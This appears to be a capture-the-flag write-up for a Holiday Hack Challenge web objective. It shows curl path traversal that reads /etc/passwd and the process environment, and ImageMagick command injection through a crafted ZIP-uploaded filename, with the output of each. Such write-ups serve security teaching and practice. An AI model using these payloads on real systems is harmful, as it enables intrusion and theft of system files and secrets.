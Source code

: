 # Objective 8: Broken Tag Generator

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value the environment variable can be obtained like this:
```
url https://tag-generator.kringlecastle.com/image?id=../../../../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../app/lib/app.rb --output app.rb
```
This code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\`env\>joergen\`\;\'.jpg
jsw@io:*$ zip joergen.zip *.jpg
  adding: '`env>joergen`;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ sleep 5
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTgwNDgwNDgwNCwxOTMzMzYxNzg3LC0xND
Y3NjE1MjYyLC0yNDM5NDI4NjYsMTMxMjA1NjQ1Myw5MjA0NTU4
NjUsLTE2MDYwNzgwNDBdfQ==
-->